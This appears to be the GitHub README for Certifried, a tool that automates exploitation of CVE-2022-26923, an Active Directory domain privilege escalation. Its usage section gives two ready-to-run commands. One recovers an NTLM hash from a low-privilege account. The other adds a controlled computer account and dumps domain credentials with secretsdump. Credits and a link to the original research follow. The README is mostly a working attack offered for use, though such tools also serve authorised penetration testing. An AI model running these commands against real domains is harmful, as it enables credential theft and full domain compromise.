 # Certifried 

## Why Certifried?
Certifried makes steps easier to replicate to abuse the new CVE-2022-26923. However below is the manual steps to replicate the vulnerability. Detailed article can be read [here](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4) from the original author.

## Usage
1. Recover NTLM hash
```
python3 certifried.py domain.com/lowpriv:'Password1' -dc-ip 10.10.10.10 -use-ldap
```
2. Proceed with secretsdump
```
python3 certifried.py domain.com/lowpriv:'Password1' -dc-ip 10.10.10.10 -computer-name 'ControlledComputer' -computer-pass 'Password123' -use-ldap -dump
```
_Note: If you received an error of Name Service not found, you might wanna add target ip to /etc/hosts_

## Credits 
* https://github.com/dirkjanm/PKINITtools
* https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py
* https://github.com/eloypgz/certi
* https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4
